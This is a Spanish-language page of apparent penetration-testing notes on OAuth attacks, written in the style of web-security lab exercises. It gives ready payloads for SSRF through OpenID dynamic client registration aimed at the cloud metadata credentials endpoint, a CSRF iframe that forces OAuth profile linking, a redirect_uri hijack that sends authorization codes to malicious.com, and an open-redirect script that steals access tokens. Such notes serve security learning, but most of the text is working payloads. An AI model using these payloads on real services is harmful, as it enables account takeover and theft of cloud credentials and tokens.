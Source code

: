 - -- 
### **1. Probar a la hora de loguearse si se genera un token en algun momento y reutilizarlo para acceder a otro perfil**

### **2. SSRF vía registro dinámico de cliente OpenID**
- Si esta habilitado el **`.well-known/openid-configuration`** se puede ver si esta expuesto el **`/reg`** con el fin de registrar una nueva "aplicacion cliente" poniendo como direccion de logo una direccion url y asi generar un SSRF.
```http
POST /reg HTTP/1.1
Host: oauth-server.com
Content-Type: application/json
Content-Length: 193

{
     "redirect_uris": [
         "https://e8nzsb0arhff60v8ucb46qfdq4wvks8h.oastify.com"
        ],
	"logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```

### **3. Forzado de enlace entre perfiles OAuth**
- El sitio web ofrece la posibilidad de enlazar un perfil social a una cuenta local ya existente, permitiendo así que el usuario pueda autenticarse mediante OAuth en el futuro. El problema es que esta vinculación no está protegida contra ataques CSRF: el endpoint ‘/oauth-linking?code=…‘ no valida si el código de autorización fue solicitado por el mismo usuario que va a asociar la cuenta.

- El atacante completa el flujo de autorización con su propia cuenta social, pero intercepta y guarda el enlace final que contiene el código de autorización. Luego, construye un exploit HTML que contiene un iframe apuntando a dicho enlace, y lo envía al administrador mediante el exploit server. Como el administrador tiene una sesión activa en la web, su navegador realiza la petición al endpoint de vinculación, usando el código robado del atacante y asociando su cuenta social con la cuenta del administrador.
```html
<iframe src="https://domain.com/oauth-linking?code=g7HjNPOn9tcLtpraL53RgDt5w6Dt5TrxrKf17S4YKq9"></iframe>
```

### **4. Secuestro de cuenta por `redirect_uri` en OAuth**
- el código de autorización (code) es enviado como parámetro en una redirección tras la autenticación. Sin embargo, nota que puede modificar el redirect_uri por cualquier dominio, y el servidor OAuth lo acepta sin validación alguna. Esto le permite redirigir el código de autorización hacia un servidor controlado por él
```html
<iframe src="https://oauth-server.com/auth?client_id=${id}&redirect_uri=https://malicious.com/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>
```

### **5. Robo de token OAuth con redirección abierta**

```html
<script>

if(!window.location.hash){
	window.location = 'https://oauth-server.com/auth?client_id=${id}&redirect_uri=https://domain.com/oauth-callback/../post/next?path=https://malicious.com&response_type=token&nonce=-1580402590&scope=openid%20profile%20email'
} else {
	window.location = '/?' + window.location.hash.substr(1)
}

</script>
```